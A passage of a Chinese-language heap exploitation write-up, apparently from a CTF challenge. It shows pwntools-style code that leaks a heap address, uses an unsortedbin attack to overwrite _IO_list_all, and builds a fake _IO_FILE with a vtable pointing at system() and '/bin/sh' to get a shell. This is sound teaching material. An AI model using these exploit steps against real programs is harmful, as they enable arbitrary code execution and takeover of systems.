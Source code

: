 ```

chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

heap = u64(read(chunk_C)[:8])
log.info(f"heap @ {heap:02x}")

```

只需要加一句`edit(chunk_C)`就可以

回忆一下 unsortedbin attack，我们只要控制了 bk，就可以在任意位置写入一个当前 chunk 的地址；

将 fd 设置为任意值，bk 设置为`_IO_list_all - 0x10`

这样就可以将`_IO_list_all`覆盖为 chunk_C 的地址了

![](https://static.hack1s.fun/images/2021/11/16/image-20211116155238895.png)

接下来需要做的是在堆上构造一个 `_IO_FILE`，我们可以先直接将之前 house of orange 中的 payload 复制过来

```
payload = b"Y"*0x10
flag = b'/bin/sh\x00'

fake_size = p64(0x61)
fd = p64(0)
bk = p64(libc.sym._IO_list_all - 0x10)
write_base = p64(1)
write_ptr = p64(2)
mode = p32(0)
vtable = p64(heap + 0xd8)                                                                                                                             
overflow = p64(libc.sym.system)

payload = payload + flag
payload = payload + fake_size
payload = payload + fd
payload = payload + bk
payload = payload + write_base
payload = payload + write_ptr
payload = payload + p64(0)*18
payload = payload + mode + p32(0) + p64(0) + overflow
payload = payload + vtable

```

这里面有一部分最初的填充是不需要的，另外`vtable`的值可能也需要变一变

去掉开头的填充后整个 payload 的长度是 224，即 0xE0

如果从 chunk_C 开始算起，那么我们还是需要三个 0x60 大小的 chunk 来放这些内容

```
edit(chunk_B,p64(0)*10+b"/bin/sh\x00")
edit(chunk_C,p64(fd)+p64(bk)+p64(1)+p64(2))
edit(chunk_E,p64(libc.sym.system)+p64(vtable))

```
